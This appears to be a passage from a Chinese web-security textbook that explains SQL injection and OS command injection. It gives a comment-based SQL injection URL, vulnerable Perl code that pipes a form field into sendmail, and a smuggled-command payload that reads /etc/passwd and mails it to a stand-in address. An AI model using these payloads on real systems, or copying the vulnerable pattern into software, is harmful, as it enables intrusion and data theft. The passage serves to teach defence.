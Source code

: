 SQL注入攻击的操作示例

把刚才指定查询字段的上官宣改写成“上官宣'--”。

```
http://example.com/search?q=上官宣'--
```

构成的SQL语句就变成"从数据库的bookTbl表中，显示满足 author= 上野宣条件所在行的数据”。

```
SELECT * FROM bookTbl WHERE author ='上官宣' - -' and flag=1;
```

SQL语句中的 -- 之后全视为注释。即，and flag=1 这个条件被自动忽略了。

结果跟flag的设定值无关，只取出满足 author="上官宣"条件所在行的数据，这样链那些尚未出版的书籍也一并显示出来了。

SQL注入是攻击者将SQL语句改变成开发者一项不到的形式以达到破坏结构的攻击。

比如，在之前的攻击案例中，就会把author的字面值（程序中使用的常量）"'上官宣'--"的字符串赋值给 $q。

```

SELECT * FROM bookTbl WHERE author = '$q' and flag = 1;

SELECT * FROM bookTbl WHERE author = '上官宣' --' and flag = 1;
```

本案例中的问题仅仅是把未出版书籍的条目也一同显示出来了。
但实际发生SQL注入攻击时，很有可能会导致用户信息或结算内容等其他数据表的非法浏览器及篡改，从而使用户遭到不同程度的损失。

### OS命令注入攻击

OS 命令注入攻击（OS Command Injection）是指通过Web应用，执行非法的操作系统命令达到攻击的目的。只要在能调用Shell函数的地方就有存在被攻击的风险。

可以从Web应用中通过Shell来调用操作系统命令。如果调用Shell时存在疏漏，就可以执行插入的非法OS命令。

OS 命令注入攻击可以像Sheel发送命令，让Windows或Linux操作系统的命令行启动程序。也就是说，通过OS注入攻击可执行OS上安装着的各种程序。

- OS注入攻击案例

下面以咨询表单的发送功能为例，讲解OS注入攻击。
该功能可将用户的咨询邮件按已填写的对方邮箱地址发送过去。

下面摘选处理该表单内容的一部分核心代码。

```
my $adr = $q->param('mailaddress');
open(MAIL, "| /usr/sbin/sendmail$adr");
print MAIL "From: info@example.com\n";
```

程序中的open函数会调用 sendmail命令发送邮件，而指定的邮件发送地址即$adr的值。

攻击者将下面的值指定作为邮件地址。

```
; cat /etc/passwd | mail hack@example.jp
```

程序接收该值，构成以下的命令组合。
